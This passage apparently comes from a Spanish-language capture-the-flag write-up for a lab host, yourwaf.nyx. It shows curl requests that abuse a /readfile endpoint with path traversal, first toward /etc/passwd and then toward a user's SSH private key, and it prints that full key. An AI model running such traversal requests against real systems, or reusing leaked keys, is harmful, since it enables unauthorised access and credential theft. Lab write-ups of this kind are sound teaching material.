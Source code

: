 Veremos algo interesante y es que estamos viendo el `TOKEN` de la pagina, junto con el parametro `/readfile` que es interesante de nombre, si vemos como funciona veremos que lee archivos a nivel de sistema, por lo que vamos a probar lo siguiente:

```shell
curl 'http://www.yourwaf.nyx:3000/readfile?api-token=8c2b6a304191b8e2d81aaa5d1131d83d&file=../../../../etc/passwd'
```

No va a dar un `forbidden` por lo que no podremos leer ese archivo, despues de buscar un rato, probamos a realizar lo siguiente:

```shell
curl 'http://www.yourwaf.nyx:3000/readfile?api-token=8c2b6a304191b8e2d81aaa5d1131d83d&file=../../../../home/tester/.ssh/id_rsa'
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
NOmwKPWS5rqFofpdCmmz/n4nRNM=
-----END OPENSSH PRIVATE KEY-----
```

